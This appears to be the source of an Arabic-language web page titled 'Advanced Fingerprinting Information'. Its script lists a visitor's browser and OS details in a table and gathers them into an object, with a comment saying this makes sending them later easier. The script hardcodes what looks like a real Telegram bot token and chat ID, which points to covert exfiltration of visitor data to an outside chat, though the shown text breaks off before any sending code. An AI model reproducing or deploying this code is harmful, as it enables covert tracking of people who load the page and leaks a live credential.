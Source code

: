 <!DOCTYPE html>
<html lang="ar">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=device-width, initial-scale=1" />
<title>معلومات Fingerprinting متقدمة</title>
<style>
  body { font-family: "Segoe UI", Tahoma, Geneva, Verdana, sans-serif; direction: rtl; background: #121212; color: #eee; padding: 20px; }
  h1 { color: #ffa500; }
  table { width: 100%; border-collapse: collapse; margin-bottom: 30px; }
  th, td { border: 1px solid #333; padding: 8px; }
  th { background: #222; }
  tr:nth-child(even) { background: #1a1a1a; }
  code { background: #333; padding: 2px 5px; border-radius: 3px; }
</style>
</head>
<body>
<h1>🧠 معلومات Fingerprinting متقدمة</h1>

<div id="output"></div>

<script>
(async () => {

  // التوكن و ID الخاصين بتليجرام
  const telegramBotToken = "7612902419:AAFkil59yYM0O61rmGH6XAcOIm5pOdEkG58";
  const telegramChatId = "5854169054"; // استبدل YOUR_CHAT_ID_HERE بالـ id اللي تبي ترسل له الرسالة

  function addSection(title) {
    const section = document.createElement("section");
    section.innerHTML = `<h2>${title}</h2><table><thead><tr><th>العنصر</th><th>القيمة</th><th>التفسير</th></tr></thead><tbody></tbody></table>`;
    document.getElementById("output").appendChild(section);
    return section.querySelector("tbody");
  }

  function addRow(tbody, name, value, explanation) {
    const tr = document.createElement("tr");
    tr.innerHTML = `<td><code>${name}</code></td><td>${value}</td><td>${explanation}</td>`;
    tbody.appendChild(tr);
  }

  // *** اجمع البيانات كلها في كائن لتسهيل الإرسال لاحقًا ***
  const data = {};

  // القسم الأول: نظام التشغيل والمتصفح
  const section1 = addSection("🎯 القسم الأول: نظام التشغيل والمتصفح");
  addRow(section1, "navigator.userAgent", navigator.userAgent, "نوع النظام والمتصفح");
  data.userAgent = navigator.userAgent;

  addRow(section1, "navigator.platform", navigator.platform, "يحدد ويندوز، لينوكس، إلخ");
  data.platform = navigator.platform;

  addRow(section1, "navigator.vendor", navigator.vendor, "تلميح عن المتصفح الحقيقي");
  data.vendor = navigator.vendor;
